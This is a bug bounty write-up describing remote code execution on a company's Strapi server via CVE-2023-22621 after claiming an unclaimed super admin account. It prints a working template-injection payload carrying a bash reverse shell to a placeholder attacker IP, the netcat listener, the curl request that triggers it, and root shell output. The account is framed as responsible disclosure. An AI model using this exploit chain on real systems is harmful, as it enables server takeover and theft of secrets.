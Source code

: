 ```yaml
---
title: "Remote code execution in a billion-dollar publicly traded company"
date: 2024-02-10T21:43:57+08:00
author: ted
draft: false
---
```


There are 4 things that have to happen in order to find [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) in the wild:
 
- You need to find a website that is powered by [Strapi](https://strapi.io).
- The _super admin_ for this website, _somehow_, **has not been claimed yet**.
- The version of Strapi should be _at least_ **4.5.5 and below**.
- No other hacker had _somehow_ seen any of the three aforementioned scenarios first.

The stars have aligned in my favor, and with this [CVE](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures), I managed to fully take over one of the websites of a **billion-dollar company listed on the New York Stock Exchange**.

And I happen to be invited to their private [bug bounty program](https://en.wikipedia.org/wiki/Bug_bounty_program).

# Exploitation
I have a server that pings me of new subdomains of this company every 5pm Manila time so I can check them out after work.

Usually I don't find anything in my probes, and this one: **strapi.[redacted].com** also didn't trigger any alarms at first.
My automations pinged me about the subdomain of this website around early December 2023, but this website caught my attention during a manual inspection of the company assets that I did around early February 2024.

I couldn't believe it at first, but the _super admin_ registration for this website was open. And _somehow_, no other hacker had seen this before me:

![Admin Registration](/admin-registration.PNG)

Realizing this was nothing short of exhilarating, since it’s been months since I got a paid bug bounty.

# Escalation

Claiming the super admin of a website is nice and dandy, but like most other security researchers, I asked myself: "How can I escalate this to something even more severe?".

The next step was obvious; I googled 'strapi cve'. One particular CVE instantly caught my attention: **[CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621)** which allows for an authenicated user to execute the highly coveted **[_remote code execution_](https://en.wikipedia.org/wiki/Arbitrary_code_execution).**

The CVE ticks all of the boxes:
- You need to have super admin access (I got that) ✔
- The version of Strapi should be 4.5.5 and below (This website is on Strapi v3.6.0) ✔

# Remote code execution

The CVE allows for a remote code execution via a [reverse shell](https://wiki.ubuntu.com/ReverseShell), which requires an attacker server waiting for incoming TCP connection from a victim server.

## Preparing the attacker server

I whipped up a small Digital Ocean droplet and using [netcat](https://en.wikipedia.org/wiki/Netcat) I had it listen to incoming TCP connections in port `1234`:

```sh
$ nc -lvnp 1234
```

- `-l` Instructs `netcat` to listen for incoming TCP connection rather than initiating a connection to a remote host.
- `-v` Produces more verbose output.
- `-n` Toggles `netcat` to not do any DNS or service lookups.
- `-p` Specifies the port to listen to.

## Executing the reverse shell payload

The reverse shell payload that worked for me after initial tests in my local network was the following:

```sh
bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'
```

Combining this with the NodeJs exploit described in the CVE, we get the following payload:

```js
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/bash","args":["/bin/bash","-c","bash -c 'bash -i >& /dev/tcp/[MY_ATTACKER_IP]/1234 0>&1'"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Now, [CVE-2023-22621](https://nvd.nist.gov/vuln/detail/CVE-2023-22621) exploits an email template bypass in Strapi. Simply put, it runs when an attempt to send an email is sent. The initial configuration of Strapi allows admins to update the email confirmation template. This is where the payload is saved:

![Strapi RCE payload](/strapi-rce-payload.PNG)

## Spawning a shell as `root` in the compromised server

This exploit runs when a confirmation email is sent, so an API call that registers a new user to Strapi in order to execute the reverse shell is necessary. This is a basic cURL command for that purpose:

```sh
$ curl -vvv -X POST -H 'Content-Type: application/json' -d '{"email":"tedminfosec+rce1@gmail.com", "username":"rcetrigger1", "password": "Test1234!"}' https://strapi.[redacted].com/auth/local/register/
```

Upon execution of the cURL command, Strapi attempts to validate the email template. The exploit then takes advantage of a template validation bypass and runs the reverse shell payload via `node`. The reverse shell then initiates a TCP connection to my attacker server, which spawns a `bash` session.

Now, the attacker machine has logged in to the server as `root`, **giving me total control of the server**:

```sh
root@[redacted]:/home/[redacted]/project/strapi# ls
ls
api    config      favicon.ico   package.json  README.md
build  extensions  node_modules  public        yarn.lock
```

In order to prove the RCE, I left an inconspicuous text file in the server at `/root/tedminfosec.txt`:

```sh
root@[redacted]:/home/[redacted]/project/strapi# cat /root/tedminfosec.txt
hello from tedminfosec@wearehackerone.com
```

# Impact

Without disclosing too much about the compromised server, it contains highly sensitive keys and secrets that could have allowed a malicious actor to pivot to other, more sensitive assets in the company's internal network.

The malicious actor could have done more than just defacing a website or use it to launch phishing campaigns.

Since privilege escalation at this point would break the _rules of engagement_, I decided to stop testing from there.

# Responsible disclosure

Once that's done, I took my time to write a detailed vulnerability report and submitted it to the bug bounty program. It was triaged as **Critical**:

![Strapi RCE triage](/strapi-rce-triage.jpg)

Now that's how I compromised a server of a company worth more than a billion dollars.